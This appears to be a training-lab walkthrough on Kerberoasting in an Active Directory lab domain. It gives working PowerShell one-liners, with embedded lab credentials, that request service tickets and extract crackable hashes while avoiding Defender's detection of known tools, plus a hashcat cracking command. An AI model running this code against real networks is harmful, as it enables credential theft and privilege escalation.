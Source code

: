 # Advanced Kerberoasting




## Roast like a Ghost


The point of kerberoasting is to get credentials for accounts with higher privledges. Service accounts or accounts with SPNs (Call them SPINS if you want to be cool.) often have higher credentials. MSSQL databases actually automatically create them for the service account running the MSSQL service.  But they can often be assigned to accounts for number of services including files services.

As you can imagine, even lowly Domain Users need to interact with file services, and can request tickets associated with these SPN accounts. Previously you did this were Rubeus, now we are going to turn on defender, watch it delete that tool immediately because it is super burned, and then craft our own Ticket Requests to get the Kerb Hash back from the svc-file account.


1. Now that you have the SAM account names, perform a subsquent query to obtain the SPN names. These will be used to perform targeted kerberoasting attacks by obtaining the kerberos pre-authentication ticket hash from the DC.

```
$name=svc-file
[runas.program]::netonly(("wheel.co","mcauthon","Ch!ldr3nOfTheL1ght",'[string[]]$spns=([adsisearcher]"(&(objectCategory=user)(samaccountname=$name))").findall()|%{$_.properties["serviceprincipalname"]};$spns'));
```

1. Armed with the list of the user SAM accounts and SPN names, we will perform the attack using the command below. Note that you will need to change the SPN and SAM account for each user (e.g., "`HOST/dragonmount.wheel.co`", "`svc-file`"). Copy the SPN hashes to crack offline.


```
[runas.program]::netonly(("wheel.co","mcauthon","Ch!ldr3nOfTheL1ght",'$_spn={param($spn,$sam);$_=[reflection.assembly]::loadwithpartialname("system.identitymodel");$tgt=[identitymodel.tokens.kerberosrequestorsecuritytoken]::new($spn);$tb=$tgt.getrequest();if($tb){$th=[bitconverter]::tostring($tb)-replace"-";[collections.arraylist]$pt=($th-replace"^(.*?)04820...(.*)","`$2")-split"a48201";$pt.removeat($pt.count-1);$hs=$pt-join"a48201";$hs=$hs.insert(32,"`$");"`n`$krb5tgs`$23`$*"+$sam+"/"+$spn+"*`$"+$hs;}};$_spn.invoke("HOST/dragonmount.wheel.co", "svc-file");'));
```


1. Collect the hashes into a text file (`kerb.hash`) on your kali operater box. 


1. Get the provided word list (`rawk_you.txt`) from the file server, and run John/Hashcat with it.
   ```sh
   wget http://172.16.2.2:8080/rush_hour/rawk_you.txt \
   hashcat -m 13100 -a 0 -w 4 --force --opencl-device-types 1,2 -O ./kerb.hash ./rawk_you.txt
   ```
   Keep a text file with the decrypted passwords for each domain admin.



